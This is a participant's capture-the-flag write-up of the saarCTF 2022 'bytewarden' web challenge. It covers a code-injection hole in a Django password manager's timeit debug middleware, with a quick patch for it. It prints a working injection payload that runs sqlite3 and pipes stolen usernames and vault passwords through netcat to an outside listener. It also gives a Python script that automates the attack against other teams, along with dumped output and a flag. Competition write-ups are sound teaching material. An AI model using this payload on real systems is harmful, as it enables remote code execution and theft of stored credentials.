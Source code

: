 # saarCTF 2022: bytewarden

TODO
Participant: Dosenpfand

## TL;DR / Short Summary

A web challenge, consisting of a [Django](https://www.djangoproject.com/) application where multiple exploitable vulnerabilities where present.

## Task Description

The challenge consisted of a web application, implemented using the Python web framework Django. It implements a password manager, where users can register and subsequently save passwords and security questions with its answers.
The application was reachable over plaintext HTTP on port 1984 and its source code was located in `/home/bytewarden`. Additionally, to the source code, network captures of requests opposing teams where executing, could be used as resources.

## Analysis Steps
Note: This write-up focuses on only one vulnerability of the application. There are at least three other ones, two of them described in the [saarCTF official git repo](https://github.com/saarsec/saarctf-2022/tree/master/bytewarden/exploits) and one of them described in a write-up by my teammates.

We started to analyze the service by skimming through the source code files. As none of us had any previous experience with Django it proofed difficult to spot unusual code parts.

We noticed that most values that are saved in the database, an [SQLite](https://www.sqlite.org/index.html) database located at `/home/bytewarden/bytewarden/db.sqlite`), were encrypted by a simple scheme: First they where XORed with the username and subsequently Base64 encoded. This happens on the client side via Javascript using the function [`submit_form()`](https://github.com/saarsec/saarctf-2022/blob/1cdae5252e5b702f07833df0104dbe39751d8670/bytewarden/service/bytewarden/bytewarden/static/crypto.js#L46).

TODO: where are the flags placed

Finally, we found a suspicious function in the `TimingMiddleware` class in the file [`bytewarden/bytewarden/utils.py`](https://github.com/saarsec/saarctf-2022/blob/1cdae5252e5b702f07833df0104dbe39751d8670/bytewarden/service/bytewarden/bytewarden/utils.py#L39):

```python
def process_template_response(self, request, response):

    if not request.user.is_authenticated or not DEBUG:
        return response

    if not response.get("DebugStats") and request.POST.get("2fa_code"):

        # TODO add in more places
        setup = \
        "from vault.utils import two_factor_match\n"\
        + f"u_code = '{request.user.code}'\n"\
        + f"p_code = '{request.POST.get('2fa_code')}'"

        diff = timeit("two_factor_match(u_code, p_code)", setup = setup, timer = thread_time_ns, number=10000)

        response["DebugStats"] = \
            f"Date and Time: {datetime.now().strftime('%Y-%m-%d, %H:%M:%S')};"\
            + f"Password Check: {diff}ns;"\
            + f"User: {request.user.username}, last login {request.user.last_login}, date joined {request.user.date_joined}"
```

## Vulnerabilities / Exploitable Issue

We suspected that this `process_template_response()` function allowed remote code execution to logged-in users: The [`timeit()`](https://docs.python.org/3/library/timeit.html) function executes the string passed as `setup` parameter as Python code. This string is partly controlled by the user via the HTTP post parameter `2fa_code`.

We deployed a quick and dirty fix by sanitizing the user input to the `setup` parameter to only allow digit characters:

```python
setup = \
"from vault.utils import two_factor_match\n"\
+ f"u_code = '{filter(str.isdigit, request.user.code)}'\n"\
+ f"p_code = '{filter(str.isdigit, request.POST.get('2fa_code'))}'"
```

## Solution

To exploit the issue ourselves we reused a code snippet that another team was using to steal out flag and therefore ended up in our logs:

```python
';__import__('os').system('sqlite3 db.sqlite3 "select username, vault.password from users_customuser user, vault_password vault where vault.user_id = user.id order by vault.id desc limit 10" | nc 10.32.66.146 10000');'
```

It executes the `sqlite` binary, selects username and vault password sorted by the newest vaults, pipes the resulting output into netcat which sends it to our server, started via `ncat -k -l 10000`. After trying it out by manually inserting the aforementioned exploit into the two factor field of the web form our local netcat received and printed the following data.

```
CuteDifficultLocket3883|EDQ1Nz8cESUoIjQlNQ0+JwVSM2ZUC3sLQAYhN1o2FhtUNypNKxI=
RomanticExultantPtarmigan3034|AS4sMxUBDiAEOTQlNSA/Nyc3OSo6MxBQIXxxX2szVzUTNhkAUzg=
BlueeyedHardtofindPropane1420|ES00Nx4MNCcJIDMtNS43Kiw0OkM7Qg1fClUNCgcpCQEcERtXJTU=
PriceyUnaccountableMud2896|AzMoMR4MFC0gIiImNC8lIikcIjsfK21Lf1wxNTsyDRYkLTAwLBI=
LateChunkyTurtle8543|HyA1NzgcAi0qOBU8MzU9JEt0QnV5AgQnEj8RCBI7MzM6PgEMdkg=
RusticSquareGauntlet7917|ATQyJhIXNDI0IDMsBiAkLT4bJjNfaxxGABkQBS87KRIGNigRIRw=
FineGullibleCarload4076|FSgvNzwBPS8oIy0sAiAjLl44N2B6RFcjPxdXBjoJAlonKSEpMA8=
WetCarelessCappelletti2559|BCQ1ERoGJC8kMjIKIDEhITs0KDsmKlpQBXgZASItCTdTP1YAOT4=
```

To decrypt the passwords we used a [Cyberchef recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)XOR(%7B'option':'UTF8','string':'CuteDifficultLocket3883'%7D,'Standard',false)&input=RURRMU56OGNFU1VvSWpRbE5RMCtKd1ZTTTJaVUMzc0xRQVloTjFvMkZodFVOeXBOS3hJPQ) and got the flag which we submitted successfully.

**Flag: `SAAR{uwCAAAIAAQDn7GUl3HH5rDs3Ppr7BF9g}`**

As the manual exploit and flag submission is not feasible to do for all opposing teams every tick we tried to automate the process next. We wrote a small Python script to get started.

```python
import sys
import requests
import string
import random

ip = next(iter(sys.argv[1:2]), '10.32.109.2')
timeout = 60
HOST = f'http://{ip}:1984'
letters = string.ascii_lowercase
username_pw = ''.join(random.choice(letters) for i in range(20))

s = requests.Session()
s.post( f'{HOST}/users/signup/', data={"username": username_pw, "password1": username_pw}, verify=False, timeout=timeout)
s.post(f'{HOST}/users/login/', data={"username": username_pw, "password": username_pw}, verify=False, timeout=timeout)
resp = s.get(f'{HOST}/vault/', verify=False, timeout=timeout)
twofa_code = "';__import__('os').system('sqlite3 db.sqlite3 \"select username, vault.password from users_customuser " \
             "user, vault_password vault where vault.user_id = user.id order by vault.id desc limit 10\" | nc " \
             "10.32.66.146 10000');'"
resp = s.post(HOST + "/vault/", verify=False, timeout=timeout, data={'2fa_code': twofa_code})
print(resp.text)
```

It first registers a new user on the opposing teams instance, then logs in and finally submits the vault form including the exploit in the `2fa_code` field. Unfortunately, shortly after we were able to successfully test this first automation step, another team took all instances completely offline that did not yet patch this RCE vulnerability. We could therefore not continue the automation process, as no targets where available anymore.

## Alternative Solutions

TODO: link
TODO: If you can think of an alternative solution (or there are others already published), compare your attempts with those.

## Lessons Learned

While before the saarCTF I had only participated in two Jeopardy style CTFs, this was my first Attack/Defense CTF. Compared to the Jeopardy style it felt even more intense. While searching for vulnerabilities was quite comparable, simultaneously fixing and exploiting an issue was an interesting experience.

Finally, automating the exploit process was much more time-intense than expected. However, it could have been prepared and practiced, in advance before the main event.

## References

* [saarCTF official git repo](https://github.com/saarsec/saarctf-2022/)
* [Python timeit() documentation](https://docs.python.org/3/library/timeit.html)
